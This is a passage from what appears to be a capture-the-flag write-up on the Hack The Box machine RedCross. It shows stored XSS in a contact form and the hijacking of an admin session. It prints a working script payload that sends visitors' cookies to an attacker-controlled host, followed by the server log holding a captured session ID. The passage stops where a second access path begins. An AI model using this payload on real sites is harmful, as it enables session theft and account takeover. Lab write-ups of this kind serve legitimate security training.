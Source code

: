 ## Access to admin.redcross.htb

There are two (with a slight variation between charles and guest in the second) paths to this access:

![1554237770386](https://0xdfimages.gitlab.io/img/1554237770386.png)

### Path 1: XSS

I did not attack the XSS on my original solve, but in chatting with the machine author, he said this was the intended path to solve this part, as the other two ways I will show were not supposed to work.

In the contact form, at `https://intra.redcross.htb/?page=contact`, if I try to enter script tags into the subject or the body, I get an error:

![1554236901609](https://0xdfimages.gitlab.io/img/1554236901609.png)

That same check does not happen in the “Contact phone or email” text box. I’ll build a simple XSS payload:

`<script>new Image().src="http://10.10.14.14:8888/cookie.php?c="+document.cookie;</script>`

The script tries to create an image in the HTML with a source of my host that includes the user’s cookies. I’ll start a python web server and submit the tag:

![1554236998078](https://0xdfimages.gitlab.io/img/1554236998078.png)

In a few seconds, I get a hit on the webserver:

```

root@kali# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.113 - - [02/Apr/2019 16:29:42] code 404, message File not found
10.10.10.113 - - [02/Apr/2019 16:29:42] "GET /cookie.php?c=PHPSESSID=pqap288bkav9od4ga69g0r3os2;%20LANG=EN_US;%20SINCE=1554236439;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -

```

Now I can take that `PHPSESSID` over to `admin.redcross.htb`, and use my Firefox cookie editing plugin to set the cookie:

![1554237125748](https://0xdfimages.gitlab.io/img/1554237125748.png)

Now I refresh the page, and I’m logged in as admin:

![1554237187933](https://0xdfimages.gitlab.io/img/1554237187933.png)

### Path 2: Cookie From Login

#### Create Account

Instead of exploiting the form, I’ll fill it out following the instructions to create an account:
